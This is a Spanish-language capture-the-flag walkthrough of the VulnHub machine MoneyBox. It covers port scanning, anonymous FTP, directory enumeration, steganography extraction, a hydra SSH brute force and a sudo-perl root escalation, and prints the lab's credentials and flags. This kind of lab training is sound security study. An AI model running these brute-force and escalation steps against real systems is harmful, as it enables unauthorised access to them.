 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MoneyBox VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 03:22 EDT
Nmap scan report for 192.168.195.144
Host is up (0.00052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.195.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
MAC Address: 00:0C:29:88:87:78 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 192.168.195.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

```shell
get trytofind.jpg
```

Nos descargamos ese `.jpg`, lo utilizaremos mas adelante...

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x php,html,txt -t 50 -r -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.195.144/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.php        (Status: 403) [Size: 280]
/.htpasswd.txt        (Status: 403) [Size: 280]
/.htaccess.txt        (Status: 403) [Size: 280]
/.htaccess.html       (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htpasswd.html       (Status: 403) [Size: 280]
/.htpasswd.php        (Status: 403) [Size: 280]
/blogs                (Status: 200) [Size: 353]
/index.html           (Status: 200) [Size: 621]
/server-status        (Status: 403) [Size: 280]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/blogs/` e inspeccionamos el codigo veremos un comentario que dice lo siguiente....

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

Por lo que leemos parece que hay un archivo llamado `S3cr3t-T3xt` que si lo ponemos en la `URL`...

```
URL = http://<IP>/S3cr3t-T3xt/
```

Si inspeccionamos la pagina veremso otro comentario que dice lo siguiente...

```html
<!..Secret Key 3xtr4ctd4t4 >
```

Y eso sera la contraseña del salvoconducto para el siguiente comando...

```shell
steghide extract -sf trytofind.jpg
```

Poniendo como salvoconducto esa clave que encontramos nos extraera un archivo llamado `data.txt` que si lo leemos pondra lo siguiente...

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Ya sabemos que el usuario es `renu` por lo que tiraremos un `hydra`...

```shell
hydra -l renu -P <WORDLIST> ssh://192.168.195.144 -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-28 04:43:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.195.144:22/
[22][ssh] host: 192.168.195.144   login: renu   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-28 04:44:15
```

> Credentials

```
User = renu
Password = 987654321
```

Por lo que nos conectamos por `ssh`...

```shell
ssh renu@<IP>
```

Una vez dentro leemos la flag...

> user1.txt

```
Yes...!
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

Depues leemos la segunda flag ubicada en `/home/lily`...

> user2.txt (flag2)

```
Yeah.....
You Got a User2 Flag

==> us3r{F14g:tr5827r5wu6nklao}
```

Si vamos al `.ssh` del usuario `lily` vemos que solo esta el archivo llamado `authorized_keys` y por lo que vemos no esta el `id_rsa` privado ni publico, por lo que nos podremos conectar al usuario `lily` sin contraseña dentro de la maquina...

```shell
ssh lily@<IP>
```

Pero ese comando dentro de la maquina, no desde nuestro `host`...

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

Vemos que podemos ejecutar `perl` como `root` por lo que tendremos que hacer lo siguiente para ser `root`....

```shell
sudo perl -e 'exec "/bin/sh";'
```

Con esto ya seremos `root`, por lo que leeremos la flag...

> .root.txt (flag3)

```
Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}

I'm Kirthik-KarvendhanT
    It's My First CTF Box
         
instagram : ____kirthik____

See You Back....
```
